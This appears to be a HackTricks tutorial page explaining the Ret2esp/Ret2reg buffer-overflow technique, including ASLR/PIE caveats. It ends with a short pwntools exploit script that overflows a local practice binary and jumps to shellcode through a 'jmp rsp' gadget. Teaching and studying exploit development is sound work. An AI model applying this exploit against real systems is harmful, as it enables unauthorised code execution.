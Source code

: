 # Ret2esp / Ret2reg

{{#include ../../banners/hacktricks-training.md}}

## **Ret2esp**

**Because the ESP (Stack Pointer) always points to the top of the stack**, this technique involves replacing the EIP (Instruction Pointer) with the address of a **`jmp esp`** or **`call esp`** instruction. By doing this, the shellcode is placed right after the overwritten EIP. When the `ret` instruction executes, ESP points to the next address, precisely where the shellcode is stored.

If **Address Space Layout Randomization (ASLR)** is not enabled in Windows or Linux, it's possible to use `jmp esp` or `call esp` instructions found in shared libraries. However, with [**ASLR**](../common-binary-protections-and-bypasses/aslr/) active, one might need to look within the vulnerable program itself for these instructions (and you might need to defeat [**PIE**](../common-binary-protections-and-bypasses/pie/)).

Moreover, being able to place the shellcode **after the EIP corruption**, rather than in the middle of the stack, ensures that any `push` or `pop` instructions executed during the function's operation don't interfere with the shellcode. This interference could happen if the shellcode were placed in the middle of the function's stack.

### Lacking space

If you are lacking space to write after overwriting RIP (maybe just a few bytes), write an initial **`jmp`** shellcode like:

```armasm
sub rsp, 0x30
jmp rsp
```

And write the shellcode early in the stack.

### Example

You can find an example of this technique in [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp) with a final exploit like:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
    sub rsp, 10;
    jmp rsp;
''')

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```
